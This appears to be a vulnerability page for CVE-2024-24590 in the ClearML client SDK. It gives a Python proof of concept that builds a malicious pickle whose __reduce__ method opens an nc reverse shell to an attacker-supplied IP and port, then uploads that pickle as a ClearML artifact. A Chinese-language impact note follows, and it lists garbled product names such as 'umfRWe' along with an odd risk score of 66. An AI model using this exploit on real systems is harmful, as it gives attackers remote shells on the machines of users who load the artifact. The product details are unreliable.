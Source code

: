 ```python
from clearml import Task
import pickle, os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc **IP** **PORT** >/tmp/f',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
```

影响描述

  CVE-2024-24590是Allegro AI的ClearML平台的客户端SDK版本0.17.0至1.14.2中的一个漏洞，该漏洞允许对不受信任的数据进行反序列化。攻击者可以利用此漏洞上传恶意工件，使其能够在与用户的系统交互时执行任意代码。受影响的产品包括umfRWe、umfRWc、umfRWd和umfRWb。该漏洞的风险评分为66，表明其严重程度很高，可能会对系统的机密性和完整性产生重大影响。